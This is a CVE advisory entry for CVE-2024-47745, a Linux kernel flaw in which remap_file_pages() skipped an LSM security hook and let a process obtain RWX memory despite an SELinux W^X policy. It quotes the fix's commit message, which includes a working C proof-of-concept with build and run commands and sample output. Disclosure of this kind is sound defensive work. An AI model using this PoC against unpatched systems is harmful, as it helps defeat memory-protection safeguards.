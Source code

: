### [CVE-2024-47745](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-47745)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f4%3C%200f910dbf2f2a%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

In the Linux kernel, the following vulnerability has been resolved:mm: call the security_mmap_file() LSM hook in remap_file_pages()The remap_file_pages syscall handler calls do_mmap() directly, whichdoesn't contain the LSM security check. And if the process has calledpersonality(READ_IMPLIES_EXEC) before and remap_file_pages() is called forRW pages, this will actually result in remapping the pages to RWX,bypassing a W^X policy enforced by SELinux.So we should check prot by security_mmap_file LSM hook in theremap_file_pages syscall handler before do_mmap() is called. Otherwise, itpotentially permits an attacker to bypass a W^X policy enforced bySELinux.The bypass is similar to CVE-2016-10044, which bypass the same thing viaAIO and can be found in [1].The PoC:$ cat > test.cint main(void) {	size_t pagesz = sysconf(_SC_PAGE_SIZE);	int mfd = syscall(SYS_memfd_create, "test", 0);	const char *buf = mmap(NULL, 4 * pagesz, PROT_READ | PROT_WRITE,		MAP_SHARED, mfd, 0);	unsigned int old = syscall(SYS_personality, 0xffffffff);	syscall(SYS_personality, READ_IMPLIES_EXEC | old);	syscall(SYS_remap_file_pages, buf, pagesz, 0, 2, 0);	syscall(SYS_personality, old);	// show the RWX page exists even if W^X policy is enforced	int fd = open("/proc/self/maps", O_RDONLY);	unsigned char buf2[1024];	while (1) {		int ret = read(fd, buf2, 1024);		if (ret <= 0) break;		write(1, buf2, ret);	}	close(fd);}$ gcc test.c -o test$ ./test | grep rwx7f1836c34000-7f1836c35000 rwxs 00002000 00:01 2050 /memfd:test (deleted)[PM: subject line tweaks]

### POC

#### Reference
- https://git.kernel.org/stable/c/49d3a4ad57c57227c3b0fd6cd4188b2a5ebd6178

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds


